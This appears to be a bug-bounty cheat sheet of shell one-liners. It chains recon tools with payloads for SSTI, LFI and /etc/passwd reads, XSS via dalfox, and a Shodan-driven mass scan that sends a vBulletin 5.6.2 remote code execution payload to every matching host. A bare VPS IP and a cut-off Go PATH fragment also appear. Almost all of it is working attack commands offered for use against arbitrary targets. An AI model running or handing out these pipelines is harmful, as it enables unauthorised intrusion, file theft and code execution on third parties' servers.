 



One LIner SSTI :-


echo "domain" | subfinder -silent |  waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"



One Liner for LFI :-


gau testphp.vulnweb.com  | egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | gf lfi | qsreplace "/etc/passwd" | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "root:" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done



One LIner for SDE :- 


echo 'inurl:folder= ext:pdf' | go-dork -s -p 25 | grep "=" | qsreplace "/etc/passwd" | fff -s 200 -o afd/


One Liner XSS :- 

gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt



One Liner vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution :- 

shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;


shodan search http.favicon.hash:-124234705


One Liner JS files finder :-

assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done



One Liner for extract endpoints from JS Files - 

cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u




cat domains.txt| while read host do;do waybackurls $host | tee -a combinedurls.txt;done


VPS IP - 103.133.215.157

$ export PATH=$PATH:$(go env GOPATH)/bin
The scripts in the rest of this document use $GOPATH instead of $(go env GOPATH) for brevity. To make the scripts run as written if you have not set GOPATH, you can substitute $HOME/go in those commands or else run:

